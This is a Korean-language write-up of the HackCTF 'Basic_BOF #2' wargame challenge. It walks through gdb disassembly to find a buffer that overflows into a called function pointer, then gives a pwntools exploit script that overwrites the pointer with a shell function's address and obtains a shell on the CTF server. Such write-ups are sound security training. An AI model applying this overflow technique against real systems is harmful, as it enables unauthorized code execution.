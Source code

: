 # [HackCTF] Basic_BOF #2

bof_basic2를 gdb로 분석해보자.<br>

```c
gef➤  disas main
Dump of assembler code for function main:
   0x080484cd <+0>:	lea    ecx,[esp+0x4]
   0x080484d1 <+4>:	and    esp,0xfffffff0
   0x080484d4 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484d7 <+10>:	push   ebp
   0x080484d8 <+11>:	mov    ebp,esp
   0x080484da <+13>:	push   ecx
   0x080484db <+14>:	sub    esp,0x94
   0x080484e1 <+20>:	mov    DWORD PTR [ebp-0xc],0x80484b4
   0x080484e8 <+27>:	mov    eax,ds:0x804a040
   0x080484ed <+32>:	sub    esp,0x4
   0x080484f0 <+35>:	push   eax
   0x080484f1 <+36>:	push   0x85
   0x080484f6 <+41>:	lea    eax,[ebp-0x8c]
   0x080484fc <+47>:	push   eax
   0x080484fd <+48>:	call   0x8048350 <fgets@plt>
   0x08048502 <+53>:	add    esp,0x10
   0x08048505 <+56>:	mov    eax,DWORD PTR [ebp-0xc]
   0x08048508 <+59>:	call   eax
   0x0804850a <+61>:	mov    eax,0x0
   0x0804850f <+66>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048512 <+69>:	leave  
   0x08048513 <+70>:	lea    esp,[ecx-0x4]
   0x08048516 <+73>:	ret    
End of assembler dump.
```
전체 main문 assembler code는 다음과 같다.<br>
그 중에서 주요한 부분을 보도록 하자.<br>

```c
0x080484f6 <+41>:	lea    eax,[ebp-0x8c]
0x080484fc <+47>:	push   eax
0x080484fd <+48>:	call   0x8048350 <fgets@plt>
0x08048502 <+53>:	add    esp,0x10
0x08048505 <+56>:	mov    eax,DWORD PTR [ebp-0xc]
0x08048508 <+59>:	call   eax
```
위에 main+41에서 보면 eax에 `ebp-0x8c`의 주소값을 담아주고, fgets함수를 call을 하게된다.<br>
main+56에서는  `ebp-0xc`의 주소값을 eax에 넣고 eax의 주소값을 call을 하는 방식이다.<br>

따라서, `ebp-0x8c`부터 `ebp-0xc`의 시작이전 까지 dummy값으로 채워주고, `ebp-0xc`에 특정 함수값을 넣어주면 쉘을 얻을 수 있을것으로 보인다.<br>

```c
gef➤  disas shell
Dump of assembler code for function shell:
   0x0804849b <+0>:	push   ebp
   0x0804849c <+1>:	mov    ebp,esp
   0x0804849e <+3>:	sub    esp,0x8
   0x080484a1 <+6>:	sub    esp,0xc
   0x080484a4 <+9>:	push   0x80485a0
   0x080484a9 <+14>:	call   0x8048370 <system@plt>
   0x080484ae <+19>:	add    esp,0x10
   0x080484b1 <+22>:	nop
   0x080484b2 <+23>:	leave  
   0x080484b3 <+24>:	ret    
End of assembler dump.
```

Shell의 주소는 다음과 같이 확인할수있다.<br>
`ebp-0xc`에 `0x0804849b`의 주소를 넣어주면 해결이 될것같다.<br>

## Exploit Code
```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3001)

payload = 'a'*(0x8c-0xc)
payload += p32(0x0804849b)

p.sendline(payload)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame  python ex2.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3001: Done
[*] Switching to interactive mode
$ ls
flag
main
$ cat flag
HackCTF{}
```

## END !
